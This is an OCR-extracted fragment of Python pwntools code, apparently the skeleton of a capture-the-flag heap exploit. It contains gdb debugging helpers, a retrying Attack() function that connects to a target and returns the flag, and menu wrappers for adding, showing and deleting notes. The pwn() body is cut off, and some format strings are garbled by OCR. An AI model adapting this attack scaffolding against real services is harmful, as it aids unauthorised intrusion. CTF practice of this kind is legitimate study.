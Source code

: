 ```
        return
    if gdbscript is not None:
        gdb.attach(sh, gdbscript=gdbscript)
    elif addr is not None:
        text_base = int(os.popen("pmap `{``}`| awk '`{``{`print $1`}``}`'".format(sh.pid)).readlines()[1], 16)
        log.success("breakpoint_addr --&gt; " + hex(text_base + addr))
        gdb.attach(sh, 'b *`{``}`'.format(hex(text_base + addr)))
    else:
        gdb.attach(sh)
    if stop:
        raw_input()


def Attack(target=None, sh=None, elf=None, libc=None):
    if sh is None:
        from Class.Target import Target
        assert target is not None
        assert isinstance(target, Target)
        sh = target.sh
        elf = target.elf
        libc = target.libc
    assert isinstance(elf, ELF)
    assert isinstance(libc, ELF)
    try_count = 0
    while try_count &lt; 3:
        try_count += 1
        try:
            pwn(sh, elf, libc)
            break
        except KeyboardInterrupt:
            break
        except EOFError:
            if target is not None:
                sh = target.get_sh()
                target.sh = sh
                if target.connect_fail:
                    return 'ERROR : Can not connect to target server!'
            else:
                sh = get_sh()
    flag = get_flag(sh)
    return flag

def choice(idx):
    sh.sendlineafter("&gt; Your choice :", str(idx))


def add(size, content='sh\x00'):
    choice(1)
    sh.sendlineafter("size :", str(size))
    sh.sendafter("Content :", content)

def show(idx):
    choice(2)
    sh.sendlineafter("Index :", str(idx))


def delete(idx):
    choice(3)
    sh.sendlineafter("Index :", str(idx))


def pwn(sh, elf, libc):
```
